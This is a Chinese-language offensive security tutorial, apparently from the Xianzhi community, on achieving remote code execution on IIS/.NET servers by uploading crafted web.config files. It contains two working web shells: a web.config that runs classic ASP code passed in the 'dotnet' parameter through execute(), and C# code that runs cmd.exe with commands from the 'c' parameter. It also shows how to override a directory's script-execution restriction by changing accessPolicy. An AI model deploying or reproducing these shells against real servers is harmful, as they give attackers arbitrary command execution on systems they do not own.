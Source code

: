 

# .NET 上传 web.config 文件实现 RCE 思路 - 先知社区

.NET 上传 web.config 文件实现 RCE 思路

- - -

# 0x01 作为 ASP 脚本运行

当某些运行.NET 环境的 IIS 容器也支持托管 ASP 脚本时，有的场景可能会遇到无法直接上传扩展名为 .ASP 的文件，在这种情况下可以通过上传定制化的 web.config 文件来运行经典 ASP 脚本代码。0x01 作为 ASP 脚本运行

```bash
<system.webServer>
    <handlers accessPolicy="Read, Script, Write">
      <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
    </handlers>
    <security>
      <requestFiltering>
        <fileExtensions>
          <remove fileExtension=".config" />
        </fileExtensions>
        <hiddenSegments>
          <remove segment="web.config" />
        </hiddenSegments>
      </requestFiltering>
    </security>
  </system.webServer>
<!--
<%
Response.write("-"&"->")
Response.write(1+2)
on error resume next
if execute(request("dotnet")) <>"" then execute(request("dotnet"))
Response.write("<!-"&"-")
%>
-->
```

访问 /web.config?dotnet=response.write(now())，页面返回当前日期信息，证明脚本运行成功。如下图所示

[![](assets/1705981862-f6f271ebf17898f995b301505ee42e94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111042-fe4a85cc-b99c-1.png)

# 0x02 作为.NETT 脚本运行

当 Internet Information Service 服务器不支持 ASP 脚本，仅支持.NET 运行环境时，有些漏洞场景可能会遇到无法上传 ashx、aspx、asmx、soap 等扩展名时，可以尝试通过上传定制化的 web.config 文件来运行.NET 代码

```bash
<system.web>
    <compilation defaultLanguage="cs">
      <buildProviders>
        <add extension=".config" type="System.Web.Compilation.PageBuildProvider" />
      </buildProviders>
    </compilation>
    <httpHandlers>
      <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />
    </httpHandlers>
  </system.web>
  if (flag){
   System.Diagnostics.Process process = new System.Diagnostics.Process();
process.StartInfo.FileName = "cmd.exe";
  string str = httpContext.Request["c"];
  process.StartInfo.Arguments = "/c " + str;
  process.StartInfo.RedirectStandardOutput = true;
  process.StartInfo.RedirectStandardError = true;
  process.StartInfo.UseShellExecute = false;
  process.Start();
  string str2 = process.StandardOutput.ReadToEnd();
  httpContext.Response.Write("<pre>" + str2 + "</pre>");
  httpContext.Response.Flush();
  httpContext.Response.End();
}
```

访问 /web.config，传入参数 c=tasklist，页面返回当前所有的系统进程，脚本运行成功。如下图所示

[![](assets/1705981862-a0e2908af0e5941822c4c79bea8d8b16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111054-053ffd76-b99d-1.png)

# 0x03 绕过策略限制

web.config 文件可用于配置 IIS 服务器的运行行为，实战中某些上传目录被管理员设定为禁止运行脚本，并且只提供读取操作，不具备修改和写入权限，比如对 uploads 目录下的 web.config 文件配置如下清单

```bash
<system.webServer>
    <handlers accessPolicy="Read,Write">
    </handlers>
</system.webServer>
```

请求/uploads/Shell2asmx.soap 如下图所示

[![](assets/1705981862-6d8faeb168fb459f9fd86abfa4511644.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111101-0988098c-b99d-1.png)

但此时修改 accessPolicy 策略，添加写入、执行、运行脚本权限。即 accessPolicy="Read,Write,Execute,Script"，再向 uploads 目录下上传新配置的这个 web.config，如下图所示

[![](assets/1705981862-ba7648edbe25a583bce4e31ec0c1a532.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123111107-0cf90fe4-b99d-1.png)
